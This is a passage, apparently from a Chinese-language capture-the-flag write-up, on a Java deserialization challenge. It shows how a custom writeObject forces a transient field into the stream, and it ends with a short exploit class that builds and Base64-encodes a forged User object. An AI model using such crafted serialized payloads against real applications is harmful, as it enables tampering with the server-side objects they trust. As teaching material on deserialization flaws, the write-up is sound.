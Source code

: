 就挨着跟进了,接下来就是反序列化了,只要值一样就可以了

![image-20220216112534412](images/9.png)

这里反序列就很简单了,基本上就是反序列化一个User对象,但是注意这个transient修饰的变量

![image-20220216112420283](images/10.png)

直接反序列化出来为空了

但是这个类重写了readObject

```
private void readObject(ObjectInputStream s) throws IOException, ClassNotFoundException {
    s.defaultReadObject();
    this.height = (String)s.readObject();
}
```

那我就可以重写writeObject强制序列化height,在User中重写一个writeObject

```
private void writeObject(java.io.ObjectOutputStream s) throws java.io.IOException{
	s.defaultWriteObject();
	s.writeObject("180");
}
```

最后的exp

```
import entity.User;
import util.SerAndDe;

import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.io.ObjectOutputStream;
import java.util.Base64;

public class payload {
    public static void main(String[] args) throws IOException {
        User user = new User("m4n_q1u_666", "666", "180");
        ByteArrayOutputStream bos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(bos);
        oos.writeObject(user);

        byte[] ser = bos.toByteArray();
        Base64.Encoder encoder = Base64.getEncoder();
        String encodedText = encoder.encodeToString(ser);
        System.out.println(encodedText);
        User user2 = (User) SerAndDe.deserialize(ser);
        System.out.println(user2);
    }

}

```
